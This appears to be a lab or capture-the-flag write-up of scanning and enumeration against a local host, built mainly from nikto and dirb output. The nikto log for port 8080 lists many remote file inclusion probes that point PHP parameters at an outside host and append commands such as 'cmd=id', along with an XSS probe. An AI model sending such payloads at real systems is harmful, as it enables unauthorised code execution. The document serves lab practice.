


# Scanning & Enumeration <!-- markdownlint-disable-line MD025 MD022 -->
{: .no_toc}

## Table of contents <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## arp-scan

find the target



## nmap



## nikto

### Port 80

```console
─$ nikto -h http://10.0.2.6
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.0.2.6
+ Target Hostname:    10.0.2.6
+ Target Port:        80
+ Start Time:         2022-12-15 11:07:28 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3268: /app/: Directory indexing found.
+ OSVDB-3092: /app/: This might be interesting...
+ Uncommon header 'x-debug-token' found, with contents: fb832c
+ OSVDB-3268: /src/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /composer.json: PHP Composer configuration file reveals configuration information - https://getcomposer.org/
+ /composer.lock: PHP Composer configuration file reveals configuration information - https://getcomposer.org/
+ /.gitignore: .gitignore file found. It is possible to grasp the directory structure.
+ 7915 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2022-12-15 11:08:48 (GMT-5) (80 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

### Port 8080

```console
─$ nikto -h 10.0.2.6 -p 8080 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.0.2.6
+ Target Hostname:    10.0.2.6
+ Target Port:        8080
+ Start Time:         2022-12-15 11:08:32 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ /: Output from the phpinfo() function was found.
+ /index.php: Output from the phpinfo() function was found.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ /./: Output from the phpinfo() function was found.
+ /index.php/123: Output from the phpinfo() function was found.
+ //: Output from the phpinfo() function was found.
+ /%2e/: Output from the phpinfo() function was found.
+ /index.php/\"><script><script>alert(document.cookie)</script><: Output from the phpinfo() function was found.
+ /index.php/content/search/: Output from the phpinfo() function was found.
+ /index.php/content/advancedsearch/: Output from the phpinfo() function was found.
+ ///: Output from the phpinfo() function was found.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /index.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ //////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
/////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////: Output from the phpinfo() function was found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-5292: /?_CONFIG[files][functions_page]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /?npage=-1&content_dir=http://cirt.net/rfiinc.txt?%00&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /?npage=1&content_dir=http://cirt.net/rfiinc.txt?%00&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /?show=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?1=lol&PAGES[lol]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?AML_opensite=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?AMV_openconfig=1&AMV_serverpath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?CONFIG[MWCHAT_Libs]=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?ConfigDir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?DIR_PLUGINS=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?G_JGALL[inc_path]=http://cirt.net/rfiinc.txt?%00: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?HomeDir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?Lang=AR&Page=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?Madoa=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?RP_PATH=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?_REQUEST=&_REQUEST[option]=com_content&_REQUEST[Itemid=1&GLOBALS=&mosConfig_absolute_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?_REQUEST=&_REQUEST[option]=com_content&_REQUEST[Itemid]=1&GLOBALS=&mosConfig_absolute_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?abg_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?abs_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?abs_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?adduser=true&lang=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?adodb=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?ads_file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?arquivo=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?back=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?base==http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?basePath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?bibtexrootrel=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?blog_dc_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?blog_theme=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?body=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?class_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?classified_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?cms=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?config[\"sipssys\"]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?config[root_ordner]=http://cirt.net/rfiinc.txt??&cmd=id: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?config[root_ordner]=http://cirt.net/rfiinc.txt??cmd=id: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?config_atkroot=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?configuration=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?custom_admin_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?dateiPfad=http://cirt.net/rfiinc.txt??&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?de=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?dept=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?do=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?exec=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?ext=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?faq_path=http://cirt.net/rfiinc.txt??&cmd=id: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?file_Nikto[]=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?file_name[]=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?file_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?fileloc=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?from=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?func=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?function=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?function=custom&custom=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?gOo=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?gen=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?get=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?home_Nikto=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?home_name=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?ilang=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?inc_dir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?inc_dir=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?includeDir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?includeFooter=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?includesdir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?insPath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?lang=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?language=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?language=en&main_page=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?lizge=http://cirt.net/rfiinc.txt??&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?lng=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?load=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?loadpage=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?main_tabid=1&main_content=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?may=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?middle=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?mode=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?mode=http://cirt.net/rfiinc.txt??&cmd=: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?modpath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?module=PostWrap&page=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?mosConfig_absolute_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?news7[\"functions\"]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?news_include_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?open=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?option=com_custompages&cpage=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?page=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?page=http://cirt.net/rfiinc.txt?%00: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?page=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?pagehttp://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?page[path]=http://cirt.net/rfiinc.txt??&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?pageNikto=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?pagename=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?pager=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?pagina=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?path_to_folder=http://cirt.net/rfiinc.txt??cmd=id: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?pg=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?pg=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?phpbb_root_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?plugin=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?principal=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?proMod=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?proMod=http://cirt.net/rfiinc.txt??cmd: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?project=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?repinc=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?root_prefix=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?root_prefix=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?section=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?site=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?site_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?styl[top]=http://cirt.net/rfiinc.txt???: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?template=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?templates_dir=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?theme=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?themepath=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?themesdir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?this_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?txt=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?up=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?url=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?w=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: /index.php?way=http://cirt.net/rfiinc.txt???????????????: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ 7917 requests: 0 error(s) and 142 item(s) reported on remote host
+ End Time:           2022-12-15 11:09:57 (GMT-5) (85 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

## dirb

### Port 80

```console
└─$ dirb http://10.0.2.6:80 /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Dec 15 11:39:41 2022
URL_BASE: http://10.0.2.6:80/
WORDLIST_FILES: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

-----------------

*** Generating Wordlist...
GENERATED WORDS: 87568                                                         

---- Scanning URL: http://10.0.2.6:80/ ----
==> DIRECTORY: http://10.0.2.6:80/public/                                                               
==> DIRECTORY: http://10.0.2.6:80/src/                                                                  
==> DIRECTORY: http://10.0.2.6:80/app/                                                                  
==> DIRECTORY: http://10.0.2.6:80/vendor/                                                               
==> DIRECTORY: http://10.0.2.6:80/extensions/                                                           
                                                                                                        
---- Entering directory: http://10.0.2.6:80/public/ ----
==> DIRECTORY: http://10.0.2.6:80/public/files/                                                         
==> DIRECTORY: http://10.0.2.6:80/public/thumbs/                                                        
==> DIRECTORY: http://10.0.2.6:80/public/theme/                                                         
==> DIRECTORY: http://10.0.2.6:80/public/extensions/                                                    
                                                                                                        
---- Entering directory: http://10.0.2.6:80/src/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://10.0.2.6:80/app/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://10.0.2.6:80/vendor/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://10.0.2.6:80/extensions/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://10.0.2.6:80/public/files/ ----
                                                                                                        
---- Entering directory: http://10.0.2.6:80/public/thumbs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://10.0.2.6:80/public/theme/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://10.0.2.6:80/public/extensions/ ----
